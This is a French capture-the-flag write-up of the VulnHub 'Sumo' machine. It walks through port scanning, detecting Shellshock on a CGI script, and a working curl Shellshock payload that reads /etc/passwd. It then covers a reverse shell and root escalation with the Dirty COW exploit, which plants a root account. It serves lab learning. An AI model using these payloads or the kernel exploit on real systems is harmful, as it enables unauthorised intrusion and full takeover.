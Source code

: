 # Solution du CTF Sumo de VulnHub

One way or another
------------------

Voici un writeup pour [Sumo](https://www.vulnhub.com/entry/sumo-1,480/), petit CTF créé par *SunCSR Team*.  

```plain
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
```

On a un serveur web et un serveur SSH. Comme vous le verrez on pourra même se passer du second.  

Je lance Nuclei sur le serveur web qui me trouve direct une vulnérabilité :  

```plain
[2021-12-27 11:56:38] [CVE-2014-6271] [http] [critical] http://192.168.56.15/cgi-bin/test
```

Il s'agit de la faille ShellShock. Wapiti est en mesure de confirmer la vulnérabilité :  

```plain
$ ./bin/wapiti -u http://192.168.56.15/cgi-bin/test --scope url -m shellshock
ujson module not found, using json
msgpack not installed, MsgPackSerializer unavailable

     __      __               .__  __  .__________
    /  \    /  \_____  ______ |__|/  |_|__\_____  \
    \   \/\/   /\__  \ \____ \|  \   __\  | _(__  <
     \        /  / __ \|  |_> >  ||  | |  |/       \
      \__/\  /  (____  /   __/|__||__| |__/______  /
           \/        \/|__|                      \/
Wapiti 3.0.9 (wapiti.sourceforge.io)
[*] Enregistrement de l'état du scan, veuillez patienter...
[!] Unable to import module ssl

[*] Lancement du module shellshock
L'URL http://192.168.56.15/cgi-bin/test semble vulnérable à l'attaque Shellshock !
```

I'm gonna find ya
-----------------

On peut exploiter la vulnérabilité directement avec cURL :  

```plain
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://192.168.56.15/cgi-bin/test

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
sumo:x:1000:1000:sumo,,,:/home/sumo:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
```

J'ai profite donc pour obtenir un shell via *ReverseSSH*.  

L'utilisateur *sumo* est intéressant car fait partie de groupes privilégiés :  

```plain
uid=1000(sumo) gid=1000(sumo) groups=1000(sumo),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),109(sambashare)
```

Mais il ne dispose ni de fichiers ni de processus utilisables pour une escalade de privilèges...  

I'm gonna getcha getcha getcha getcha
-------------------------------------

La machine est vulnérable à différents exploits Kernel dont [Dirty COW](https://dirtycow.ninja/).  

L'exploit signé Firefart donne généralement des bons résultats donc je ne suis pas allé chercher ailleurs.  

```plain
www-data@ubuntu:/tmp$ ./dirty holyc0w
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: holyc0w
Complete line:
firefart:fim4kAXNC8Hg6:0:0:pwned:/root:/bin/bash

mmap: 7f3cf6da9000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'holyc0w'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'holyc0w'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@ubuntu:/tmp$ grep firefart /etc/passwd
Binary file /etc/passwd matches
www-data@ubuntu:/tmp$ su firefart
Password: 
firefart@ubuntu:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@ubuntu:/tmp# cd /root
firefart@ubuntu:~# ls
root.txt
firefart@ubuntu:~# cat root.txt
{Sum0-SunCSR-2020_r001}
```



*Published December 27 2021 at 13:38*